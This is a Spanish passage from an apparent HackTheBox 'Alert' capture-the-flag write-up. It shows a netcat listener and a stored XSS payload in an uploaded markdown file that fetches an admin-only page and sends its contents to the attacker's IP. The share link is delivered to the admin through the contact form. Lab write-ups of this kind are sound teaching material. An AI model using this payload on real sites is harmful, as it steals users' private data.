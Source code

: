 Revisando la página principal, nos damos cuenta de que al interpretar un `markdown` hay un botón de `share`.

![share](../../img/Alert/share.png)

Si consiguiéramos inyectar código `JavaScript` en un archivo, podría producirse una vulnerabilidad de tipo `XSS`.

Para comprobarlo, vamos a ponernos en escucha con netcat por el puerto `80` (`HTTP`) y a enviarnos una solicitud con el contenido de `messages.php` que se muestra para el administrador

```
nc -lnvp 80
```

Subimos un archivo `file.md` con el siguiente contenido.

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

Copiamos la url de `compartir` (sin entrar en ella) y se la enviamos al administrador de la página a través del `contact us`.

![contact](../../img/Alert/contact.png)

Esperamos unos instantes y nos llega una solicitud viniendo de la ip `10.129.95.162` (la de la máquina víctima) con el parámetro `res` con algo urlencodeado.
